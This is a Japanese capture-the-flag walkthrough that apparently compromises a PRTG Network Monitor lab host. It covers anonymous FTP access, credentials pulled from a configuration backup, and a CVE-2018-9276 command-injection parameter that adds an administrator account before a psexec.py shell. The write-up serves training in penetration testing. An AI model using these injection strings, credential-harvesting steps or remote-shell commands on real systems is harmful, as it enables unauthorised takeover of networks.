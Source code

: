 # 1\. Port scan

$ip=10.10.10.152

sudo nmap -sC -sV -Pn $ip

-sC  対象のポートやサービスにスクリプトを実行する。

-sV サービスバージョンの検出を目的としたスキャンを実行するためのオプション

-Pn ホスト検出をスキップする。pingを打たずにポートスキャンを実施する。

![9a6c9fc718661608b431b40ea1163f29.png](../_resources/9a6c9fc718661608b431b40ea1163f29.png)

上記nmapの結果から

FTP

PRTG bandwidth monitor

SMB

の3種類のサービスが使われてるのを確認できる。

スキャンした結果、赤枠内のPRTGのバージョンが判明した為、googleから検索した結果、CVE-2018-9276の脆弱性が利用できる。

参考URL:`https://github.com/A1vinSmith/CVE-2018-9276.git`

**CVE-2018-9276**

\*\*PRTGNetworkMoniterに関する脆弱性。\*\***この脆弱性はバージョン18.2.39以前のバージョンで見つかりました。****このバージョンのPRTG管理者ウェブコンソールに管理者権限を持つ攻撃者がアクセスした場合、センサーや****通知管理シナリオで不正なパラメータを送信することで、OSコマンドインジェクションの脆弱性が悪用される。**

# **2.SMBサービスをスキャン**

smbmap を使用してスキャンしたが認証に失敗した。

![5000f6b897f06af6b206fc6412c9f34f.png](../_resources/5000f6b897f06af6b206fc6412c9f34f.png)

# 3.FTPサーバにアクセス

![27420e565b7a11bf3adebdabf2a687bb.png](../_resources/27420e565b7a11bf3adebdabf2a687bb.png)

上記スキャン結果からFTPのパスワードが設定されていないことを確認した。

Anonymousログインに成功した。

![a83c13046125f3c7f554f7fc24f5b5cf.png](../_resources/a83c13046125f3c7f554f7fc24f5b5cf.png)

![cd73f9856e5fd04f90b9eb290dd502be.png](../_resources/cd73f9856e5fd04f90b9eb290dd502be.png)

user.txtをダウンロードした結果flagだった事を確認した。

# 4\. PRTGの情報を収集

nmapの実行結果から検知したサービスの情報と思われるものを確認した。

![51a94b536837f577c9c34c647e436b87.png](../_resources/51a94b536837f577c9c34c647e436b87.png)

## https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

![b889331759fa829a866f148806fc1c00.png](../_resources/b889331759fa829a866f148806fc1c00.png)

デフォルトのインストール先がprogramdataに設定されている事をPaessler公式ページのSUPPORTから確認した。

ftpサーバへ接続は可能な為、同サーバ内からprogramdataディレクトリにアクセスできる事を確認する。

`ls`

![919951ffcf4eef7b04fb89d1803a9e2d.png](../_resources/919951ffcf4eef7b04fb89d1803a9e2d.png)

lsコマンドでは表示されなかった為 -laオプションで試行してみる。

`ls -la`

![c99b8462e07d6ccb05a0cff3f5175ada.png](../_resources/c99b8462e07d6ccb05a0cff3f5175ada.png)

hidden属性を含めたファイルを表示nmapで検出したサービス名と同じディレクトリを発見した。

`cd ProgramData`

`cd Paessler`

`cd ./"PRTG Network Monitor"`

![432de8bdd9419b0f6b695dcda9503c6d.png](../_resources/432de8bdd9419b0f6b695dcda9503c6d.png)

設定ファイルと思しき複数のファイルを確認したため解析の為にダウンロードする。

mget PRTG*

![017b45cb1e63d0c3dbbf46f60e620181.png](../_resources/017b45cb1e63d0c3dbbf46f60e620181.png)

ダウンロードした各種ファイルの解析を実施した。

`cat ./PRTG\ Configuration.dat | grep -B 3 -A 3 credential`

PRTG Configuration.datを解析したが有用な情報は確認できない。

![52c1cad51aae6289a2b820b9e2557adb.png](../_resources/52c1cad51aae6289a2b820b9e2557adb.png)

`cat ./PRTG\ Configuration.old | grep -B 3 -A 3 credential`

PRTG　Congiguration.oldを解析したが有用な情報は確認できない。

![2ea98b2f78f3df837a0c82a4e7fac2b4.png](../_resources/2ea98b2f78f3df837a0c82a4e7fac2b4.png)

バックアップを確認した結果

ファイル内のcredentialを表示した結果ユーザ名とパスワードを発見した。

PRTG　Configuration.old.bakを確認した所、ユーザIDとパスワードと思われる情報を確認した。

![8dfe2f19e004d2edd065cd7c9bc91caa.png](../_resources/8dfe2f19e004d2edd065cd7c9bc91caa.png)

記載してるユーザ情報でログインを試したが失敗した。

![d1c0f3386449415d710e8c67f61322f6.png](../_resources/d1c0f3386449415d710e8c67f61322f6.png)

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測する。

![2f6b29b3a0646ad3a86c086fafabeb40.png](../_resources/2f6b29b3a0646ad3a86c086fafabeb40.png)

ログイン成功する。

# 5\. PRTGに侵入する

# ![53f6aee3f9146c7ff86701b83b2c3013.png](../_resources/53f6aee3f9146c7ff86701b83b2c3013.png)

[`https://github.com/A1vinSmith/CVE-2018-9276`](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)

[](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)を参考にして攻撃を実施した。

setup→

Account Settings →

Notifications→

Add new Notification

![94a809760f8a5f772e7cb1af9c5decf9.png](../_resources/94a809760f8a5f772e7cb1af9c5decf9.png)

6.OSインジェクションを試行する。

program file Demo exe notification – outfile.ps1

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

net user ユーザアカウントを追加する。

net localgroup administrators 　指定したユーザを管理者グループに追加する。

username prtgadmin

password PrTg@dmin2018を入力した。

![cbde80e4a400777524f6e963e918884f.png](../_resources/cbde80e4a400777524f6e963e918884f.png)

OSインジェクションを実施した。

作成したNotificationを実行できるのを確認した。

![bfba5762ac2138df97a5922022fc8968.png](../_resources/bfba5762ac2138df97a5922022fc8968.png)

pentestopユーザを作成した。

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'`

smbmapで確認した結果、管理者権限で共有フォルダに接続できる事を確認した。

![1a5ec544d7e4ed8939519bb0567bac9e.png](../_resources/1a5ec544d7e4ed8939519bb0567bac9e.png)

パーミッションを確認した結果、管理共有C$ ADMIN$ がREAD,WRITEが許可されている為。

psexec.pyを使用してリモートアクセスを試行する。

`python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

![95ee0d18ab01d774214508f076c59022.png](../_resources/95ee0d18ab01d774214508f076c59022.png)

whoamiコマンドからrootを取得できているかを確認した。

![6a5c94e8da760a84627b33b47e9202c2.png](../_resources/6a5c94e8da760a84627b33b47e9202c2.png)